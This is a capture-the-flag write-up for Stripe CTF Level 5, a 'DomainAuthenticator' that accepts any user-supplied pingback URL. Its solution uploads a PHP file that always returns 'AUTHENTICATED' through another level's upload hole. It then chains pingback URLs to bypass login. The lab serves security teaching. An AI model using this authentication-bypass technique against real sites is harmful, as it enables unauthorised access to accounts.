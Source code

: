 ## Level 5

Many attempts have been made at creating a federated identity system for the web (see [OpenID](http://openid.net/), for example). However, none of them have been successful. Until today.

The DomainAuthenticator is based off a novel protocol for establishing identities. To authenticate to a site, you simply provide it username, password, and pingback URL. The site posts your credentials to the pingback URL, which returns either `AUTHENTICATED` or `DENIED`. If `AUTHENTICATED`, the site considers you signed in as a user for the pingback domain.

You can check out the Stripe CTF DomainAuthenticator instance here: https://level05-1.stripe-ctf.com/user-xxxxxxxxxx. We've been using it to distribute the password to access Level 6. If you could only somehow authenticate as a user of a level05 machine...

To avoid nefarious exploits, the machine hosting the DomainAuthenticator has very locked down network access. It can only make outbound requests to other stripe-ctf.com servers. Though, you've heard that someone forgot to internally firewall off the high ports from the Level 2 server.

Interesting in setting up your own DomainAuthenticator? You can grab the source from `git clone https://level05-1.stripe-ctf.com/user-xxxxxxxxxx/level05-code`, or by reading on below.

### Running

- Install bundler: 'gem install bundler'
- Run srv.rb: './srv.rb'
- Point your browser to localhost:4567

### Solution

  * Upload the following `index.php` PHP to your endpoint from Level 2:
  ```php
  #!/usr/bin/env php
  <?php
  echo "AUTHENTICATED\n";
  ```
  * Set `pingback` to `https://level05-1.stripe-ctf.com/user-xxxxxxxxxx/?pingback=https://level02-1.stripe-ctf.com/user-xxxxxxxxxx/uploads/`

Originally posted at [https://stripe-ctf.com/levels/5](https://stripe-ctf.com/levels/5).
